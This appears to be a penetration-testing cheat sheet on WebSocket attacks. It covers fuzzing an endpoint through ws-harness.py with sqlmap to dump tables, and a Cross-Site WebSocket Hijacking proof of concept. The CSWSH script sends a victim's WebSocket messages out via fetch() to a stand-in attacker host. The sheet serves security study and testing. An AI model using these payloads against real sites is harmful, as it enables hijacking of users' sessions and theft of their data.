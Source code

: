 # Web Sockets

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
  * [Using ws-harness.py](#using-ws-harness-py)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)

## Tools

* [ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)

## Exploit

### Using ws-harness.py

Start ws-harness to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{"auth_user":"dGVzda==", "auth_pass":"[FUZZ]"}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.

## Labs

* [PortSwigger Labs for Web Sockets](https://portswigger.net/web-security/all-labs#http-request-smuggling)

## References

- [HACKING WEB SOCKETS: ALL WEB PENTEST TOOLS WELCOMED by Michael Fowl | Mar 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Qualys - Mike Shema, Sergey Shekyan, Vaagn Toukharian](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - January 27, 2020 - Snowscan](https://snowscan.io/bbsctf-evilconneck/#)
- [Hacktricks - CSWSH](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)
